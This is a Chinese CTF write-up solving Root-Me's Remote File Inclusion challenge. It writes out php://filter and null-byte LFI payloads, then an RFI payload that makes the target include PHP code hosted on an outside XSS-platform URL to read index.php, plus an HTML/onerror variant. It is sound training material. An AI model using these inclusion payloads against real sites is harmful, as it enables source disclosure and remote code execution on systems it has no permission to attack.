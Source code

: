 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)] [[解题报告](http://exp-blog.com/2019/03/09/pid-3517/)]

------


## 题目分析

PHP 的 RFI （远程文件包含）漏洞利用，与 LFI （本地文件包含）很类似。

题目要求我们获取 PHP 页面源码，开启挑战后，只有 [Français](http://challenge01.root-me.org/web-serveur/ch13/?lang=fr) （`?lang=fr`） 和  [English](http://challenge01.root-me.org/web-serveur/ch13/?lang=en) （`?lang=en`） 两个选项。

顺手测试了一下，当前页面的名称为 `index.php` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/01.png)

换言之我们有 3 个页面：`?lang=fr`、`?lang=en`、 `index.php` 。

------------

## LFI 试错

虽然题目提示要使用 RFI 完成挑战，但是还是先测试下 LFI 的效果。

可以利用 `php://filter` 特性读取页面源码，构造这样的 payload ：

`?lang=php://filter/convert.base64-encode/resource=fr`

于是得到 Base64 编码的页面源码：

```base64
PD9waHAKCiRsYW5nID0gYXJyYXkgKAogICAgICAgICAgICAnbGFuZycgPT4gJ0xhbmd1ZScsCiAgICAgICAgICAgICd3ZWxjb21lJyA9PiAnQmllbnZlbnVlIHN1ciBub3RyZSBub3V2ZWF1IHNpdGUgd2ViICEnLAogICAgICAgICk7Cgo/Pgo=
```

对其解码虽然得到源码，但是没有有效的信息：

```php
<?php

$lang = array (
            'lang' => 'Langue',
            'welcome' => 'Bienvenue sur notre nouveau site web !',
        );

?>
```

类似地，`?lang=en` 的页面源码也是没提供有效的信息。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/02.png)


换言之，有效信息应该保存在  `index.php` 。于是构造类似的 payload 去读取页面源码：

`?lang=php://filter/convert.base64-encode/resource=index.php`

但是页面报错：

```
Warning: include(php://filter/convert.base64-encode/resource=index.php_lang.php): failed to open stream
```

从报错分析可以知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`

亦即前面之所以可以读取到 `?lang=fr` 和 `?lang=en` 的内容，是因为他们真正的文件名是 `fr_lang.php` 和 `en_lang.php` 。

但是因为不存在 `index_lang.php` 和 `index.php_lang.php` 页面，所以 `include()`  Local File 时就会报错。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/03.png)


其实在 LFI 的领域，这种情况（include 的文件被强制加了后缀）是有办法处理的。

因为 PHP 是用 C 语言编写的，而在 C 语言中，标记一个字符串的终止符是 `\0` ，其 URL 编码是 `%00` 。

因此可以尝试在 payload 末尾添加 `%00` 以截断被强制添加的 `_lang.php` 后缀：

`?lang=php://filter/convert.base64-encode/resource=index.php%00`

但是这次报错为 `Warning: include()` ，即 `include` 的参数被置空，说明 `%00` 被过滤了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/04.png)

------------

## RFI 漏洞

由于 LFI 的最后希望被封堵，我们把策略转移到 RFI 。

其实 RFI 更简单，从前面分析已经知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`。

RFI 只需要再 `输入` 点直接设置 URL 地址即可，如 payload 为：`?lang=https://www.baidu.com` 。

但是页面返回报错 ` Warning: include(https://www.baidu.com_lang.php): failed to open stream` 。

这是因为 `_lang.php` 后缀作祟。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/05.png)

在 RFI 中要截断后缀，只需要在末尾添加 `?` 即可，这样后缀就会变成 URL 的参数，亦即构造 payload 为：

`?lang=https://www.baidu.com?` 

于是我们成功把百度嵌入到了页面中：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/06.png)

------------

## RFL 注入

既然可以成功嵌入百度，那么也可以嵌入 payload 页面。

所以接下来要做的，就是在一个公网可访问的 WEB 服务器上构造一个页面，把该页面的内容作为 payload ，读取发起 `include` 行为的页面源码。

为了节省搭建 WEB 服务器的资金，从这里开始我们利用 XSS 平台，推荐 [http://xss.tf](http://xss.tf) 。

在 XSS 平台上新建一个项目，并配置自定义代码 `<?php echo file_get_contents('index.php') ?>` 。

配置完成后，我们得到访问这个项目的页面地址为 `http://xss.tf/M5Q` 

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/07.png)

将 XSS 项目的 URL 注入挑战页面，即构造 payload ： `?lang=http://xss.tf/M5Q?`

成功读取到 `index.php` 的源码，打开浏览器的开发者工具，在注释中找到 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/08.png)

------------

## 其他 payload

在 XSS 平台上构造 payload 的过程中，我发现这题挑战其实不止一个解法:

在 `inlcule()` 参数的引号被闭合后，可以注入 HTML 和 JS 代码，然后在 JS 代码中调用 PHP 代码。

例如构造这样的 payload 一样可以成功读取到页面源码：

`'<img src=0 onerror="<?php echo file_get_contents('index.php') ?>" />'`

 看上去好像多此一举，不过在某些情况可能会很有用。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/09.png)


------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
